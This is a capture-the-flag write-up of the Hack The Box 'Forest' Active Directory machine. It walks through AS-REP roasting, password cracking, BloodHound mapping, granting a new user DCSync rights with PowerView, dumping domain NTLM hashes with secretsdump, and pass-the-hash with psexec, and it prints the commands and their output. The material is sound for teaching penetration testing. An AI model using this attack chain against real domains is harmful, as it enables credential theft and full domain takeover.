


# HTB - Forest

#### Ip: 10.10.10.161
#### Name: Forest
#### Rating: Easy

----------------------------------------------------------------------



### Enumeration

Let's begin enumerating this box with an Nmap scan covering all TCP ports. I'll also use the `--min-rate 10000` flag to speed the scan up:

```text
┌──(ryan㉿kali)-[~/HTB/Forest]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.161
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 10:57 CDT
Nmap scan report for 10.10.10.161
Host is up (0.072s latency).
Not shown: 65511 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49703/tcp open  unknown
49955/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 8.14 seconds
```

Next, I'll scan the specific ports we found open with a bit more detail. I'll add the `-sC` and `-sV` flags to use default scripts against the ports and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Forest]
└─$ sudo nmap -sC -sV -T4 10.10.10.161 -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49684,49703,49955
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 11:03 CDT
Nmap scan report for 10.10.10.161
Host is up (0.070s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-04-26 16:10:18Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
49955/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m48s, deviation: 4h02m30s, median: 6m48s
| smb2-time: 
|   date: 2023-04-26T16:11:10
|_  start_date: 2023-04-26T14:56:11
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-04-26T09:11:08-07:00
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.64 seconds
```

Ok cool, looks like we've got all the signs of a domain controller here. Lets go ahead and add `10.10.10.161 htb.local` to our `/etc/hosts` file. 

Even though it's an old tool and spits out a lot of information, when I see SMB ports 139 and 445 open I like to try Enum4Linux to see if I can get a quick win of gathering some usernames and/or getting more info on the password policy.

Using:

`enum4linux -a 10.10.10.161`

gets me a few usernames!


lets add these to a file called users.txt

```text
┌──(ryan㉿kali)-[~/HTB/Forest]
└─$ cat users.txt   
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Now that we have a few possible users, lets try Impacket's tool GetNPUsers to see if we can grab any hashes:


Nice! Lets go ahead and add this hash to a file named hash.txt and see if we can crack it using JohnTheRipper:


Awesome, looks like we have some valid creds- svc-alfresco:s3rvice. Lets see if we can login using these. For this I will try using evil-winrm first:

```text
┌──(ryan㉿kali)-[~/HTB/Forest]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> hostname
FOREST
```

Cool, lets go ahead and grab the user.txt flag from svc-alfresco's Desktop:


### Privilege Escalation

Lets go ahead try to enumerate the domain a bit more. To do this I like to use Bloodhound so I can visually get a map of the domain. This is especially useful as domains start getting more complex. 

To do this first I need to upload SharpHound.exe to the target, which will ingest all the data I need to input into BloodHound for mapping.

Because we are using evil-winrm, this is as simple as issuing:

```text
*Evil-WinRM* PS C:\Users\svc-alfresco\Music> upload /home/ryan/Tools/AD/kerberos/SharpHound.exe
Info: Uploading /home/ryan/Tools/AD/kerberos/SharpHound.exe to C:\Users\svc-alfresco\Music\SharpHound.exe

                                                             
Data: 1402196 bytes of 1402196 bytes copied

Info: Upload successful!
```
Quick aside - I'm working out of the Music directory because while I was working on this box, there was at least one other person on there too, and I wanted all my files/tools to be somewhere out of the way.

Simply running `./SharpHound.exe` will initiate the ingestor and it will grab everything we need and compress it into a zip file. From there I can transfer the file back to my machine using Impacket's SMB Server and load the .zip into Bloodhound. 

To interact with Bloodhound i need to run `sudo neo4j console` and then run `bloohound`.

Next I will be presented with a login screen, and after authenticating I can load my .zip file into bloodhound. 



After loading my data the first thing I like to do is search for the user I have a shell as (in this case svc-alfresco), right click on their icon, and select `Mark User as Owned`. That way I can get a better sense of possible exploit paths based on work I've already done. 


Clicking on the "Shortest Path from Owned Principals" query we can visualize our attack path:


So it looks like our user svc-alfresco is a member of the Service Accounts group which in turn is a part of the Privileged IT Accounts group, which is also a member of the Account Operators group, who have generic all access over the Exchange, and that group has WriteDacl permissions on the dc.

So it seems we have he ability to perform a DcSync attack and create a new user account in order to grab the administrator hash. Lets do that:

Back in my evil-winrm shell I'll run the following commands:

`net user ryan password /add /domain` to add a user named ryan to the domain.

Next I'll run `net group "Exchange Windows Permissions" /add ryan` to add user ryan to the Exchange group.

After that the simplest way to go forward is to upload PowerView.ps1 to my shell. PowerView is an amazingly powerful tool and has so may features to discover. It is very much worth downloading and playing around with if not already familiar. 


After loading powerview, we only have a few more commands left.

Let's set up a couple variables:

`$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force`

`$Cred = New-Object System.Management.Automation.PSCredential('HTB.local\ryan', $SecPassword)`

and finally:

```text
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity ryan -Rights DCSync
```
Ok cool, so with that out of the way we should now be able to dump some hashes. I'll use impacket-secretsdump for this:

```text
┌──(ryan㉿kali)-[~/HTB/Forest]
└─$ impacket-secretsdump htb.local/ryan:password@10.10.10.161          
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
ryan:9601:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:de270ce9edb4ba3a28abb5bc7e28d7fc:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
```

One of the most satisfying things in pentesting is watching these hashes roll in like that. Beautiful.

And the great thing is, we don't even need to bother cracking this admin hash, we can simply pass-the-hash to login and grab our final flag. There are several tools we can do this with, but my favorite it Impacket's psexec:

```text
┌──(ryan㉿kali)-[~/HTB/Forest]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file eVsZqmDv.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service RwoC on 10.10.10.161.....
[*] Starting service RwoC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
FOREST
```

Now all that's left to do is grab the root.txt flag:


This was a great beginner level Active Directory box. The foothold was quite easy, and the privilege escalation was really fun and interesting. It was a great way to practice DcSync attacks, which can get a bit tricky, if you're not familiar with them.

Thanks for following along!

-Ryan

-----------------------------------------------------------------------------------
